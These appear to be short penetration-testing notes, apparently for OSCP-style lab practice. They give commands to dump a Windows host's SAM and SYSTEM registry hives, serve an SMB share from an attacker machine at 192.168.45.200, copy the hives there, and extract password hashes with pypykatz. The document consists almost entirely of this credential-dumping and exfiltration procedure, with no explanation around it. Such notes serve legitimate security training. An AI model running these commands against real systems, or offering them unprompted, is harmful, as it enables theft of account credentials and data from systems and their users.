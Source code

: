 ```powershell
mkdir c:\Temp
cd c:\Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

```shell
 smbserver.py -smb2support EXEGOL . -username oscp -password oscp
```

```powershell
net use Z: \\192.168.45.200\EXEGOL /user:oscp oscp
copy sam Z:
copy system Z:
```

```shell
pypykatz registry --sam sam system # On exegol
```
